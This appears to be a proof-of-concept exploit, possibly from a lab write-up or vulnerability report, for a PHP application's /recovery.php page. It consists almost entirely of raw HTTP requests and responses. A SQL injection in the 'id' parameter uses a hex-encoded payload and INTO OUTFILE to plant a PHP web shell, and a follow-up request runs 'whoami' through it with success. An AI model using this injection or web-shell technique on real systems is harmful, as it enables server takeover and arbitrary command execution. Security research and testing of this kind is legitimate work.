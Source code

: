 ```http
POST /recovery.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 39
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://172.17.0.2
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.17.0.2/recovery.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=ee5875f3660d048db3ac7065cee0dbad
Connection: keep-alive

id=2222'+union+select+1,1,unhex('3C3F7068702073797374656D28245F4745545B22636D64225D293B203F3E')+into+outfile+'/var/www/html/test.php'+--+a
```

- **Step 2**

```http
GET /test.php?cmd=whoami HTTP/1.1
Host: 172.17.0.2
sec-ch-ua: "Not.A/Brand";v="99", "Chromium";v="136"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=5978669809acc90c93484a9c4c9258db
Connection: keep-alive


```

Response

```
HTTP/1.1 200 OK
Date: Fri, 30 May 2025 16:48:14 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.34
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 13

1	1	www-data
```
